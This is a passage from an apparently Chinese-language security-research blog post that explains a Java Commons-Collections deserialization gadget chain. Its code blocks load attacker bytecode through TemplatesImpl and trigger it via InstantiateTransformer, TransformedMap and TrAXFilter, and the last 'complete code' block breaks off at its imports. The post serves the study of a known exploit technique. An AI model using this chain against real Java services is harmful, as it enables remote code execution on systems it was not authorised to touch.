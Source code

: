 只给出了其中需要添加修改的代码，具体原理截图看CC1链中的内容

通过`decorate`方法给`valueTransformer`赋值，然后通过反射调用`checkSetValue`方法

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Calc");
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        HashMap hashMap = new HashMap();
        Map decoratemap = TransformedMap.decorate(hashMap,null,instantiateTransformer);
        Class  transformedmapclass =TransformedMap.class;
        Method checksetvalue = transformedmapclass.getDeclaredMethod("checkSetValue", Object.class);
        checksetvalue.setAccessible(true);
        checksetvalue.invoke(decoratemap,TrAXFilter.class);
```

### AbstractInputCheckedMapDecorator.setValue()方法调用checkSetValue()

通过给键值对赋值来调用setValue()方法

```java
                byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Calc");
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        HashMap hashMap = new HashMap();
        hashMap.put("value","aaa");
        Map<Object,Object> decoratemap = TransformedMap.decorate(hashMap,null,instantiateTransformer);
        for (Map.Entry entry : decoratemap.entrySet()) {
            entry.setValue(TrAXFilter.class);
        }
```

## 完整代码

加载的字节码是可以序列化的，但是由于`setValue`参数的不可控，所以还是必须要用`ChainedTransformer`来控制参数

具体原因可以看[CC1链](http://www.liam317.top/2025/09/22/Commons-Collections%E7%AF%8701-CC1%E9%93%BE/)中遇到的问题

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
```